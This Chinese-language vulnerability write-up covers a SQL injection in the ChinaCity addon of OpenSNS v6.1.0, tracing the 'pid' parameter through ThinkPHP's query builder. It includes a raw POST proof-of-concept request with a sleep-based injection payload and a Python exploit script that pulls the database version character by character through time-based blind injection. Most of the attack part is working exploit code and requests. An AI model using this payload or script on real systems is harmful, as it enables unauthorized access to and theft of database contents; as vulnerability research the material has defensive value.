 # OpenSNS v6.1.0 前台 sql 注入

> 原文：[http://book.iwonder.run/0day/OpenSNS/3.html](http://book.iwonder.run/0day/OpenSNS/3.html)

## 一、漏洞简介

## 二、漏洞影响

OpenSNS v6.1.0

## 三、复现过程

### 漏洞分析

Addons/ChinaCity/Controller/ChinaCityController.class.php:50 发现我们输入的 payload，向前查找，最开始从$_POST 获取，如何处理，到此处

![image](img/f92295af7cc5e0843e9d58da00df860a.png)

ThinkPHP/Common/functions.php:343 跟进 I 函数获取到 payload

![image](img/c55049a0b78afe99d4c1c4ff30c524bf.png)

继续跟发现有参数过滤，可仔细一看跟没过滤一样

![image](img/9c87c08850ba7f7a2d62c911f86266a6.png)

![image](img/35ba863c77b6222b94f8f99bc7bbffcc.png)

到这里向前追溯就结束了，从`$pid = I('pid');` 向后跟

跟进 \Addons\ChinaCity\Model\DistrictModel::_list `$list = D('Addons://ChinaCity/District')->_list($map);`跟进 Addons/ChinaCity/Model/DistrictModel.class.php:12

![image](img/9bf74d269a4290299c37d4351b1d3da4.png)

![image](img/840b688ac67285bf637f92874e6a2701.png)

ThinkPHP/Library/Think/Model.class.php:618 `$resultSet = $this->db->select($options);`ThinkPHP/Library/Think/Db.class.php:772

![image](img/20e5f72249091477932abfff6e554ad7.png)

Db.class.php:799, Think\Db->buildSelectSql() 下的 `$this->parseSQl` ThinkPHP/Library/Think/Db.class.php:799

![image](img/574daf555ab9f31daaa2f4407a9b1449.png)

ThinkPHP/Library/Think/Db.class.php:804 发现执行了 2 个其他的 sql 语句，在此处（`buildSelectSql 里->return $sql`）下断点可以看到 sql 语句

![image](img/9e1c660cba11c0a50fc85e44edc10100.png)

ThinkPHP/Library/Think/Db.class.php:813

![image](img/677f0632bac9666579d349d7108ac521.png)

ThinkPHP/Library/Think/Db.class.php:821 `$this->parseWhere(!empty($options['where'])?$options['where']:''),`

ThinkPHP/Library/Think/Db.class.php:423

![image](img/a9139e57deefae7b1d2b698c7a8f01f2.png)

跟到

![image](img/a9460952240df022fbed1cc649598c25.png)

ThinkPHP/Library/Think/Db.class.php:457

![image](img/87597c092bd1c3f7adda0aae7d626151.png)

ThinkPHP/Library/Think/Db.class.php:468

![image](img/1ce610ef240b331de08b54c86cc18ec3.png)

ThinkPHP/Library/Think/Db.class.php:457

![image](img/57f4741d2a6b4bc734bc5e4feafd216b.png)

ThinkPHP/Library/Think/Db.class.php:497

![image](img/d5e9b59232124154b9c728a2610a5379.png)

虽然这个地方有转译，但只有$val[1]

![image](img/dc54ff97585cf0709fb1223b91e7e443.png)

ThinkPHP/Library/Think/Db.class.php:464

![image](img/0c472a90b1d80751291eff505c593a6e.png)

ThinkPHP/Library/Think/Db.class.php:813

![image](img/b7eb76cc3e743d0836bcc7ef813ba588.png)

ThinkPHP/Library/Think/Db.class.php:773 `$result = $this->query($sql,$this->parseBind(!empty($options['bind'])?$options['bind']:array()));`

执行成功 sleep 了

```
Db.class.php:469, Think\Db->parseWhereItem()
Db.class.php:457, Think\Db->parseWhere()
Db.class.php:821, Think\Db->parseSql()
Db.class.php:799, Think\Db->buildSelectSql()
Db.class.php:772, Think\Db->select()
Model.class.php:618, Think\Model->select()
DistrictModel.class.php:12, Addons\ChinaCity\Model\DistrictModel->_list()
ChinaCityController.class.php:58, Addons\ChinaCity\Controller\ChinaCityController->getCity()
AddonsController.class.php:42, Home\Controller\AddonsController->execute()
App.class.php:153, ReflectionMethod->invokeArgs()
App.class.php:153, Think\App::exec()
App.class.php:193, Think\App::run()
Think.class.php:121, Think\Think::start()
ThinkPHP.php:96, require()
index.php:73, {main}() 
```

### 漏洞复现

#### vul url

> [http://0-sec.org/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html](https://www.t00ls.net/)

#### poc

```
POST /index.php?s=%2Fhome%2Faddons%2F_addons%2Fchina_city%2F_controller%2Fchina_city%2F_action%2Fgetcity.html HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Content-Length: 116
Accept: */*
Cookie: 
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,und;q=0.7
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.95.131
Referer: http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/ucenter/config/index.html
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

cid=0&pid%5B0%5D=%3D%28select%2Afrom%28select%2Bsleep%283%29union%2F%2A%2A%2Fselect%2B1%29a%29and+3+in+&pid%5B1%5D=3 
```

![image](img/9898ed16d3df4c6125eb1df65bb7fbd1.png)

![image](img/aa2e7e481e25eb887ac62f3457dc3ed5.png)

Vulnerability file

Addons/ChinaCity/Controller/ChinaCityController.class.php:50

![image](img/dd34bc7b1924553091d4819e38fcde9e.png)

ThinkPHP/Library/Think/Db.class.php:772

![image](img/43a2dec9599efb07a84b92ed8268582f.png)

![image](img/bda55356ee9f94d036665fed387fcc56.png)

#### exp

```
import requests
from requests import exceptions

url="http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"

header={'X-Requested-With':'XMLHttpRequest'}
# proxies={'http':'127.0.0.1:8080'}
flag=''
for i in range(1,50):
    for j in range(32,128):
        try:
            data={
                'cid':0,
                'pid[0]':"=(select if(ord(substr((select version()),{},1))={},sleep(10),0))AND 3 IN  ".format(i,j),
                'pid[1]':3
            }
            # print data['pid[0]']
            r=requests.post(url,data=data,headers=header,timeout=5)

        except exceptions.Timeout :
            flag+=chr(j)
            print flag 
```

![image](img/c13875763cee1236dd62c3e126a2d8d3.png)

## 参考链接

> [https://www.t00ls.net/thread-54688-1-1.html](https://www.t00ls.net/thread-54688-1-1.html)

